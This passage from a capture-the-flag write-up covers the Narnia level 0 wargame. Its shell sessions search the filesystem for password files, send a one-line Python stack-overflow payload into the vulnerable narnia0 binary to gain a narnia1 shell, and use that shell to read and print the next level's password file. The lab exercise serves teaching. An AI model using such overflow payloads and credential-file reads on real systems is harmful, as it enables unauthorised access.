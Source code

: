 It seems privileges have been raised narnia1. Now it's time to find the password for the next level:
```bash
narnia0@narnia:/narnia$ cd /
narnia0@narnia:/$ du -a|grep narnia
du: cannot read directory './etc/ssl/private': Permission denied
4	./etc/narnia_pass/narnia5
4	./etc/narnia_pass/narnia6
4	./etc/narnia_pass/narnia7
4	./etc/narnia_pass/narnia0
4	./etc/narnia_pass/narnia4
4	./etc/narnia_pass/narnia1
4	./etc/narnia_pass/narnia9
4	./etc/narnia_pass/narnia2
4	./etc/narnia_pass/narnia3
4	./etc/narnia_pass/narnia8
44	./etc/narnia_pass
du: cannot read directory './etc/polkit-1/localauthority': Permission denied
du: cannot read directory './run/lxcfs': Permission denied
du: cannot read directory './run/user/14002': Permission denied
du: cannot read directory './run/user/14001': Permission denied
du: cannot read directory './run/user/14006': Permission denied
du: cannot read directory './run/user/14008': Permission denied
du: cannot read directory './run/user/14007': Permission denied
du: cannot read directory './run/sudo': Permission denied
du: cannot read directory './run/log/journal/0d8e66480c320675a338622759f86ace': Permission denied
du: cannot read directory './run/lvm': Permission denied
du: cannot read directory './run/systemd/inaccessible': Permission denied
du: cannot read directory './run/lock/lvm': Permission denied
du: cannot read directory './dev/mqueue': Permission denied
du: cannot read directory './dev/shm': Permission denied
^C

```

`/etc/narnia_pass/narnia1` sounds like the right file which of course, it's unreacheable unless you're `narnia1` user:

```bash
narnia0@narnia:/$ cat /etc/narnia_pass/narnia1
cat: /etc/narnia_pass/narnia1: Permission denied
narnia0@narnia:/$ ls -l /etc/narnia_pass/narnia1
-r-------- 1 narnia1 narnia1 11 Nov  9 15:08 /etc/narnia_pass/narnia1
```

but, we can do so through the previous method so let's do it:

```
narnia0@narnia:/$ (python -c 'print("B"*20  +"\xef\xbe\xad\xde")'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: BBBBBBBBBBBBBBBBBBBBﾭ?
val: 0xdeadbeef
cat /etc/narnia_pass/narnia1
efeidiedae

```
